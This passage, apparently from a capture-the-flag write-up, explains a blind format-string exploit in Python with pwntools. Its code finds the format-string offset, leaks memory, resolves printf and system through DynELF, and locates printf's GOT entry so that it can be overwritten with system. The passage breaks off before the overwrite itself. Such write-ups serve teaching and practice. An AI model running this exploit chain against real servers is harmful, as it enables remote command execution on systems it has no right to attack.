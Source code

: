 The `find_leak_point` function attempts to find the correct offset so that our input refers to itself and is sent back to us.

```python
def find_leak_point():
    log.info('Finding leak point')
    for i in xrange(1, 200):
        r = exec_payload('%' + str(i) + '$p' + 'AAAAAAAA' + 'BBBBBBBB')
        if '0x4242424242424242' in r: # chr(0x42) = 'B'
            return i
```

The `leak` function leaks data from the address given as argument.
Some workarounds were made by the initial creator to handle the case of the special `\n` that we previously mentionned.

```python
def leak(addr):
    addr &= (2**64 - 1)
    r = exec_payload('%' + str(leak_point) + '$s' + 'XXXXXXXX' + p64(addr))
    if r == '':
        return ''
    r = r[:r.index('XXXXXXXX')]
    if r == '(null)':
        return '\x00'
    else:
        return r + '\x00'
```

Now using [`DynELF`](http://docs.pwntools.com/en/stable/dynelf.html) from PwnTools, we can find the addresses of the `printf` and `system`functions.
The idea behind this is to overwrite the `printf` address from the Global Offset Table (GOT) with the one from `system`.
By doing so, when the server will attempt to reply to our request, it will use the `system` function instead of the `printf` function and thus execute the payload we send.

```python
d = DynELF(leak, start_address_elf)
dynamic_addr = d.dynamic
printf_addr = d.lookup('printf', 'libc')
system_addr = d.lookup('system', 'libc')
```

The `find_plt_got` function attempts to find the address of the GOT inside the Procedure Linkage Table (PLT).
Indeed, the addresses for the `printf` and `system` functions we found before are in reality jumps to other addresses.
So if we find the GOT, we will be able to have the real address of the `printf`function from the GOT.
If you don’t get this point, you may want to take a look at [this video](https://www.youtube.com/watch?v=kUk5pw4w0h4) from [@LiveOverflow](https://twitter.com/liveoverflow).

```python
def find_plt_got():
    addr = dynamic_addr
    while True:
        x = d.leak.n(addr, 2)
        if x == '\x03\x00': # PLT/GOT
            addr += 8
            return u64(d.leak.n(addr, 8))
        addr += 0x10

def find_printf():
    addr = got_addr
    while True:
        x = d.leak.n(addr, 8)
        if x == p64(printf_addr):
            return addr
```